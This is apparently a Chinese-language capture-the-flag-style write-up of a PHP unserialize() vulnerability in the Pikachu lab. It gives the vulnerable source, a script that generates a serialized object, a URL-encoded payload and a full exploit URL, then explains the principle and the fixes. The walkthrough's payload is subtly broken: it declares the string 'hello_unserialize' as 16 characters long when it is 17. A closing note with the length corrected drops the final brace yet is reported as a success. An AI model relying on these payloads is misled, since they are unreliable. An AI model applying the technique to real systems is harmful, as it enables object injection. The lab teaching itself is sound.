

> 靶场地址：`/vul/unserilization/unser.php`
> PHP 反序列化漏洞核心：**用户可控输入直接传给`unserialize()`函数，攻击者可以构造恶意序列化字符串触发魔术方法执行逻辑**。

## 页面提示

> 
> 这是一个接受序列化数据的 api，参数名是`o`，GET 传参：`?o=序列化字符串`

### 靶场后端源码（pikachu 内置源码）

```
<?php
class S{
    var $test = "pikachu";
    function __destruct(){
        echo $this->test;
    }
}
$o = $_GET['o'];
unserialize($o);
?>
```

- `__destruct()`：**析构魔术方法**，对象销毁的时候自动执行，输出成员变量`$test`的值。
- 接收 GET 参数`o`，直接送入`unserialize()`反序列化，输入完全可控。

## 漏洞目标

原本`$test="pikachu"`，我们构造序列化字符串，修改`$test`变量，让页面输出我们自定义的内容。

## 步骤 1：本地生成恶意序列化字符串

新建 php 文件，本地执行：

```
<?php
class S{
    var $test = "hello_unserialize"; //修改为想要输出的字符串
}
$a = new S();
echo serialize($a);
?>
```

运行得到序列化结果：

```
O:1:"S":1:{s:4:"test";s:16:"hello_unserialize";}
```

解释：

- `O:1:"S"`：Object 对象，类名 S，长度 1
- `1:` 对象里面 1 个属性
- `s:4:"test"`：字符串属性 test，长度 4
- `s:16:"hello_unserialize"`：属性值字符串长度 16，内容 hello_unserialize

## 步骤 2：URL 传参（URL 编码！非常关键）

把生成的序列化字符串赋值给 GET 参数`o`，**一定要做 URL 编码**，特殊字符`{ } " :`在 URL 里会被解析出错。

原始序列化串：

```
O:1:"S":1:{s:4:"test";s:16:"hello_unserialize";}
```

URL 编码之后：

```
O%3A1%3A%22S%22%3A1%3A%7Bs%3A4%3A%22test%22%3Bs%3A16%3A%22hello_unserialize%22%3B%7D
```

完整 payload URL：

```
https://f0012fbf98204f57ae3bbf2cb76c8bce--8081.ap-shanghai2.cloudstudio.club/vul/unserilization/unser.php?o=O%3A1%3A%22S%22%3A1%3A%7Bs%3A4%3A%22test%22%3Bs%3A16%3A%22hello_unserialize%22%3B%7D
```

浏览器访问这个链接。

> 
> 原理：PHP 接收 o 参数，unserialize 复原对象；脚本执行结束，对象销毁，触发`__destruct()`，打印`$test`，页面输出`hello_unserialize`，漏洞复现完成。

### 小提示

如果你不 URL 编码直接粘贴序列化串，大括号引号丢失，payload 失效，看不到输出。

## 漏洞原理

1. 应用直接接收外部可控字符串，直接传入`unserialize()`函数。
2. 用户可以控制对象、类的成员变量。
3. 当代码存在`__destruct`、`__wakeup`这类魔术方法，反序列化重建对象就会自动调用魔术方法，触发业务逻辑篡改，真实环境可以实现文件读取、代码执行。

## 修复方案

1. **不要把用户可控数据直接送入 unserialize ()**，尽量使用 json 替代序列化存储传输数据；
2. 如果必须使用反序列化，做白名单校验，只允许信任的类，禁止用户控制传入的序列化内容；
3. 严格过滤输入，反序列化后做内容校验。

# ================
实操
O:1:"S":1:{s:4:"test";s:17:"hello_unserialize";
序列化成功
